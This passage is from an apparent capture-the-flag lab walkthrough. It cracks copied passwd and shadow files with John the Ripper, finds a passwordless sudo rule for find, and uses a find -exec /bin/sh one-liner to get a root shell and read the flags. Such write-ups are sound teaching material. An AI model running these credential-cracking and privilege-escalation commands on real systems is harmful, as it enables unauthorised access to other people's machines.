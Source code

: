 Now we can try cracking the hash of the **missy** user and may be `root`?! Let's save the output for both this `shadow` file and the `/etc/passwd` on our local machine for cracking:

```
$ sudo unshadow passwd.txt shadow.txt > crackme.txt                                                                 
$ john --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Out of this we should get the password for Missy pretty quickly. Let's switch to that user to see what we can do:

```
[leonard@ip-10-10-54-52 perl5]$ su missy
Password: 
[missy@ip-10-10-54-52 perl5]$ sudo -l
Matching Defaults entries for missy on ip-10-10-54-52:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-54-52:
    (ALL) NOPASSWD: /usr/bin/find
[missy@ip-10-10-54-52 perl5]$
```

It loos we can use `find` with sudo, let's leverage that to find our flags:

```
[missy@ip-10-10-54-52 perl5]$ sudo find / -name "flag1.txt"
/home/missy/Documents/flag1.txt
[missy@ip-10-10-54-52 perl5]$ sudo find / -name "flag2.txt"
/home/rootflag/flag2.txt

```

we cant get the first flag easy now that we have access to miss

But we still have to get root for the next one... Let's leverage `find` again:

```
[missy@ip-10-10-54-52 ~]$ sudo find . -exec /bin/sh \; -quit
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Bingo! root shell! Let's get the last flag:

```
sh-4.2# cat /home/rootflag/flag2.txt
```

  This was a fun challenge. I am working on a script to do a lot of this manual work, I'll update this post once I complete it :)
